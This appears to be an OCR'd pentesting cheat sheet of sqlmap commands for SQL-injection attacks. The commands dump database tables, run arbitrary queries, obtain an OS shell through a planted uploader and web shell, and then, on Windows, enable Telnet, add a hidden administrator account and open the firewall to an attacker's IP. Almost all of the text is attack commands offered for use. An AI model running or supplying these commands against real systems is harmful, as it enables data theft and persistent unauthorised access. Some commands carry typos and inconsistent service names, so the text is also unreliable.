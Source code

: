 ```Shell
time sqlmap -r /path/to/request/file.txt -D <db_name> -T <table_name> -C <column1,column2,column3> --dump
```

Sometimes sqlmap can not find a unique column to figure out how many rows are there,
so the work-around is to sort a column value so sqlmap figure out how many row are there

```Shell
time sqlmap -r /path/to/request/file.txt -D <db_name> -T <table_name> --sql-query="SELECT column4,column7 FROM <db_name>.<table_name> ORDER BY <column4> DESC"
```

OR

```Shell
time sqlmap -r /path/to/request/file.txt --sql-query="SELECT column4,column7 FROM <db_name>.<table_name> ORDER BY <column4> DESC"
```

## Alternative way to get data from a DB

```Shell
time sqlmap -r /path/to/request/file.txt -D <Db_name> --sql-query="SELECT column_name from information_schema.columns where table_name = 'user'"
```

## Adding custom prefix or suffix to the sql query

```Shell
time sqlmap -r /path/to/request/file.txt --prefix="SELSCT * FROM <table_name> WHERE column_name='" --suffix=" -- " --banner
```

## Getting os-shell on the system

```Shell
time sqlmap -r /path/to/request/file.txt --os-shell
```

### Working with O/S Shell

- To see transactions ' tcpdump -i eth1 -vvv -X'

- How O/S Shell works
  - Sqlmap put on the server two files:
    - 1st stage uploader
    - 2nd stage Command Shell Page

- In case of the server is Windows, you can get access through the firewall like that

```Shell
> sc query state= all
> sc query tlnsvr
> sc config tlnserver start= demand
> sc start tlnsvr
> net user root toor /add
> net localgroup TelnetClients /add
> net localgroup Administrators root /add
> net localgroup TelnetClients root /add
> netsh firewall add portopening protocol=TCP port=23 name=telnet mode=enable scope=custom adresses=<your.public.ip.address>
```
